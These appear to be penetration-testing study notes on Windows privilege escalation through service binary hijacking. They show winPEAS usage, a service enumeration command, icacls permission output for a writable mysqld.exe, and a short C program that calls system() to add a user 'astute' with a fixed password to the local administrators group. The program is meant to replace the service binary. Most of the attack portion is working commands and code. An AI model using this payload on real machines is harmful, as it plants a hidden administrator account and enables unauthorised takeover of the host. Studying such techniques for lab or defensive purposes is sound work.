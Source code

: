 ### To automate the windows enumeration better use winpeas
```ps1
./winpeas.exe | tee -a winpeas.log
```
> https://github.com/peass-ng/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md

### Service Binary Hijacking 
```ps1
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```
_you can still automate this with powerup_

### Icacls to check permission of binary

| Mask | Permissions             |
| ---- | ----------------------- |
| F    | Full access             |
| M    | Modify access           |
| RX   | Read and execute access |
| R    | Read-only access        |
| W    | Write-only access       |

> icacls permissions mask

```
PS C:\Users\dave> icacls "C:\xampp\mysql\bin\mysqld.exe"
C:\xampp\mysql\bin\mysqld.exe NT AUTHORITY\SYSTEM:(F)
                              BUILTIN\Administrators:(F)
                              BUILTIN\Users:(F)

Successfully processed 1 files; Failed processing 0 files
```

_you can pretty much abuse the binary to achieve the Local Administrator if you have `F` right by replacing that binary with your vulnerable binary_

##### change binary and replace with the binary 
[compilation]

```C
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user astute Test@123 /add");
  i = system ("net localgroup administrators astute /add");
  
  return 0;
}
```
